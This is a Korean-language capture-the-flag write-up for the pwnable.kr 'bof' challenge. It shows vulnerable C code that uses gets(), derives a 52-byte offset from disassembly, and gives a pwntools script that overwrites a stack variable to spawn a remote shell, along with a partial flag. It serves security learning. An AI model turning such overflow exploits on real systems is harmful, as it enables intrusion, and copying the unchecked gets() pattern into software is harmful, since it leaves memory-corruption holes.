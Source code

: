 bof Solution
===========================

- 문제

![](./images/1.png)

pwnable.kr의 3번째 문제 bof이다. 문제 제목에서도 알 수 있듯이 Buffer overflow를 이용해 flag를 얻는 문제다. 이전 문제들과 다르게 nc를 이용해 접속해 쉘을 얻어 flag를 읽어야한다. 주어진 bof와 bof.c 파일을 wget을 이용해 다운로드한다. 
```bash
$ wget http://pwnable.kr/bin/bof
$ wget http://pwnable.kr/bin/bof.c
```

- bof.c
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

main()에서 func()에 인자로 0xdeadbeef를 전달한다. func()에서 gets() 함수를 통해 버퍼에 입력을 받는다. gets() 함수는 입력의 길이를 체크하지 않기 때문에 BOF에 취약한 함수로 알려져있다. 이 부분을 이용해 BOF를 발생시켜 key 값을 0xcafebabe로 바꾸면 쉘을 얻을 수 있다. 디버거를 이용해 key의 위치를 찾아본다.

![](./images/2.png)

![](./images/3.png)

0x78c에는 "overflow me : " 문자열이 저장되어 있으므로 <+24>의 call은 printf() 함수 호출 라인이다. <+35>의 call이 gets() 함수 호출 라인이다. 따라서 호출 전 (%esp)에 넘긴 %ebp-0x2c가 overflowme 배열의 시작 주소이다. 또, <+40>에서 0xcafebabe와 cmpl 연산을 하고 있는 %ebp+0x8이 key의 주소이다. 따라서 overflowme의 시작부터 key까지 총 0x2c+0x8 = 0x34(52) byte의 공간이 존재한다. 52 byte의 빈 공간을 채운 후 0xcafebabe를 입력하면 key에 해당 값이 덮어씌워진다. 

- exploit.py
```python
from pwn import *

r = remote("pwnable.kr", 9000)

r.sendline("A"*52 + "\xbe\xba\xfe\xca")
r.interactive()
```

52개의 패딩 이후 little-endian 방식을 고려해 "\xbe\xba\xfe\xca"를 입력해주었다. 이후 /bin/sh이 실행되어 정상적으로 쉘을 얻을 수 있었다.

nc를 이용해 직접 접속할 수도 있지만, 현재 pwnable.kr 9000포트로 접속 시 알 수 없는 오류로 인해 원활히 exploit을 진행할 수 없었다. (먼저 입력 후 문자열 출력, 이후 무한 대기 등의 오류) 따라서 python으로 exploit code를 작성해 flag를 얻었다.  

![](./images/4.png)

"daddy, I just ~ " 가 이번 문제의 flag이다.